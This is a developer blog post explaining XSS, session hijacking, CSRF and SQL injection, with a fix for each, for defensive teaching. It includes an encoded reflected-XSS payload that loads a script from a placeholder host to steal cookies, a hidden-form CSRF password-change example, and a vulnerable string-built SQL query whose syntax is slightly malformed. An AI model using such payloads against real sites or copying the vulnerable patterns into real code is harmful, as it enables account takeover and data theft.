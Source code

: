 ```yaml
---
layout: post
title:  "Understanding Web Application Security"
date:   2019-07-28 09:39:37 +0300
description: "
There are quite a lot of developers that when it comes to web application security they rely on whatever framework they are using to take care of that for them, but don't really have an understanding of what's happening behind the scenes. Web application security is quite a complex topic, we will be covering: 1. Cross-site scripting, also called XSS scripting, 2. Session hijacking, 3. SQL Injection. Both cross-site scripting and SQL injection are cases of code injection...
"
icon: "security/lock.png"
categories:
---
```

I can testify that a lot of people confided in me they considered doing this (including yours truly) under the frustration of the bi-monthly administrative policies that mandated we change our workstation password:

![my-password](/images/security/my-password.jpg){:class="img-responsive"}

This sort of thing happens more than you would imagine—what a lot of people don't know is that hackers rely a lot on *social engineering* to gain access to systems. [Kevin Mitnick](https://en.wikipedia.org/wiki/Kevin_Mitnick) was famous for calling in, pretending to be somebody he wasn't and asking for somebody's password to "perform some maintenance".

## Phishing
If you've followed the US 2016 election cycle news, you might have heard that John Podesta, Hillary Clinton's campaign manager, was hacked. He was actually the victim of a *phishing* scam, whereby he received an email, made to look like an authentic email from Google (he was using Gmail) that informed him that he needed to change his password because unauthorized access to his account was detected. He fell for it, clicked on the link which redirected him to a page that looked like a Google page (he didn't pay attention to the URL, it seems), where he entered his old and *supposedly* new credentials.

*But this is a scam, it's not what I wanted to talk about, because you as a developer cannot do anything about it. I want to talk about real  vulnerabilities in the software and how they can be addressed, which means understanding the vectors attackers have at their disposal.*

There are quite a lot of developers that when it comes to web application security they rely on whatever framework they are using to take care of that for them, but don't have an understanding of what's happening behind the scenes. Web application security is quite a complex topic, we will be covering:

1. Cross-site scripting, also called XSS
2. Session hijacking
3. Cross-site request forgery, or CSRF
4. SQL injection

Both XSS and SQL Injection are cases of *code injection*.

## Cross-Site Scripting
XSS refers to a vulnerability where an attacker can "inject" Javascript code that will be run by the application. In my previous article, I've discussed the [same-origin](http://achiral.io/cors-made-simple) policy concept at length which states that if the content from one site is granted permission to access resources on a system, then any content from that site will share these permissions, while content from another site will have to be granted permissions separately.

<i>A lot of people think that SOP prevents XSS attacks. This is <b>not the case.</b></i>

A typical example of XSS is *persistent cross-site scripting*. If a page isn't properly *sanitizing* the user input (a field in a for, for example), a user could type invalid Javascript code, which is going to be saved by the application in its database and be subsequently rendered every time it displays a page. Imagine you have a page that is visible to multiple users (such as a product page) which allows users to add comments. If the page is not escaping user input, a malicious user can write actual a script block, which will then be rendered to all users as part of the page HTML. The Javascript code has access to the cookies of that user and it can send that information to the attacker.

![image-title-here](/images/security/attack.png){:class="img-responsive"}

An alternative is the *reflected* (or non-persistent) XSS attack, whereby the user's input is not stored in the database but returned in the same way it was inputted. It works like this: Say you have a page that allows you to search for products. The user types some text in the search box and clicks the search button which sends a GET request to the server.

<div class="highlight">
GET http://www.onlineshop.com?search=something
</div>

If the site finds something, it returns a list of results, but if it doesn't, it's going to say

*Your search, 'something', returned no results.*

...which is just the original, unaltered string. A crafty attacker might see this vulnerability and might send an email to the user asking him to click on a link which for the search term in the query string, contains some nefarious script block. If the user clicks on the link (which is likely because most people don't hover on links to see where they lead to), the application server won't be able to find any result and will return with a *not found* page containing the script rendered directly on the page.

<div class="highlight">
GET http://www.onlineshop.com?
  search=%3Cscript%2520src%3D%22http%3A%2F%2Fsomesite.com%2Fscript.js%22%3E%3C%2Fscript%3E
  HTTP/1.1
</div>

This script can then hijack the session cookie, like in the previous example.

What can we do about it? Two things:

1. Validate inputs: this means checking that the user didn't try to input any funky stuff and warning him if this is the case.
2. Sanitize outputs: everything that's rendered to the page must be HTML escaped. This means that script blocks will be displayed as text, and won't be part of the DOM, and thus executed.

If you are developing with Node / Express, there are plenty of packages to help you safeguard against XSS attacks, such as [helmet](https://www.npmjs.com/package/helmet) or [xssfilter](https://www.npmjs.com/package/xssfilter), etc.

## Session Hijacking
Most web applications use a session mechanism that allows the server hosting the web application to know which user is making a specific request. Sessions usually involve authenticating the user, creating some sort of *session_id* (usually a string) and setting a cookie with that value on the user's browser. Session hijacking is a way of getting to know that string.

One way to gain access to it is, as I mentioned, cross-site scripting. Another typical way of gaining access to that cookie is by sniffing packets. Since browsers send the cookies associated with a domain for every request, somebody sniffing traffic would be able to see also the value of the session cookie. A typical way to sniff traffic is to set up an unencrypted Wi-Fi hotspot in a public place and monitor the traffic of the people connecting to it. Does this mean I cannot use my online banking when I am connected to a public hotspot? No, because if the website uses SSL for all requests, the contents of the traffic won't be intelligible to a man-in-the-middle, and usually major sites like Facebook / Twitter, online banking, etc. are pretty well secured. There are however plenty of smaller poorly written sites that only use SSL for the login page, and then pass the session cookie unencrypted to other pages.

Another way to gain access to a user's session is to get that user to install malware on his/her computer. Since browsers usually store cookies on disk, that malware would be able to access the cookie if it knows where to look for it.

A yet another way of accomplishing session hijacking is *session fixation*. There are plenty of sites that accept a session ID in the URL, such as:

<div class="highlight">
http://www.website.com?sid=asb1sadasdasdan23123
</div>

The reason why they do it is that a lot of users turn off their cookies, ironically, for security reasons. This, however, would open them up to scams, like somebody sending them an email which says:

<blockquote>
Hey, click on http://www.website.com?sid=asb1sadasdasdan23123, and enter credit card and address information to receive a free bonus on your order.
</blockquote>

Since the attacker knows the session id, he/she can also log to that page and see the information inputted by the user.

## Cross-Site Request Forgery
CSRF is an attack that tricks the victim into submitting a malicious request and relies on the fact that the user is logged in. Since the browser usually sends the session cookie with the request, the server perceives the request as legitimate. An important part of CSRF attacks is *social engineering*.

![image-title-here](/images/security/csfr.png){:class="img-responsive"}

Let's say a site exposes some functionality in the form of a web request, like so:

<div class="highlight">
GET https://www.thesite.com/account?password=val HTTP/1.1
</div>

This example is a bit contrived and oversimplified, but you get the picture. If the attacker can get the user to click on a link which points to that link **while logged in**, that's going to have the effect of changing the password for the user to whatever the attacker wants. This link can be part of an email, or it can be part of a message on a public board or a website set up by the attacker, etc.

An action that changes the password will more likely be a POST than a GET, but that doesn't make it CSRF-proof either, because a user can be tricked into submitting a form. Here's how that would work: you could have a form with a hidden input like so:

<div class="margin-bottom">
<pre><code class="language-js line-numbers">
&#x3C;form action=&#x22;https://www.thesite.com/account&#x22; method=&#x22;POST&#x22;&#x3E;
  &#x3C;input type=&#x22;hidden&#x22; name=&#x22;password&#x22; value=&#x22;val&#x22;/&#x3E;
  &#x3C;input type=&#x22;submit&#x22; value=&#x22;Some tricky text&#x22;/&#x3E;
&#x3C;/form&#x3E;
</code></pre>
</div>

<script src="https://gist.github.com/toaderflorin/6862d6a60d2dc4418a38fd81ae69e5bd.js"></script>

Using HTML forms with email is not possible, because a lot of clients disable them or warn about them, but you could redirect the user to a page hosted somewhere. It turns out you don't even have to trick him/her to click on the submit button, that can be done by the site using Javascript (say by reacting to the document load event).

How about PUT and DELETE? Turns out that the *same-origin policy* helps us here because attackers cannot do XHR requests from their site to the *http://www.thesite.com*. It's also why for POST attacks a form is being used instead of a POST XHR. SOP blocks that too.

## SQL Injection
And last (in our article), but certainly not least, we have SQL injection. I think most of us remember this:

![exploit](/images/security/exploit.png){:class="img-responsive"}

For SQL injection to work, you'd have to be writing your SQL queries using string interpolation/concatenation.

<div class="margin-bottom">
<pre><code class="language-js line-numbers">
// this is the wrong way to do it
connection.query($`SELECT * FROM users WHERE username={usr}`, (err, result) => {
  // do something
})

// use parameters instead
connection.query('SELECT * FROM users WHERE username=?', [usr], (err, result) => {
  // do something
})
</code></pre>
</div>

As you can see, the text fits nicely in the query. The way you get around this is by using parameters, which are supported by all database systems.
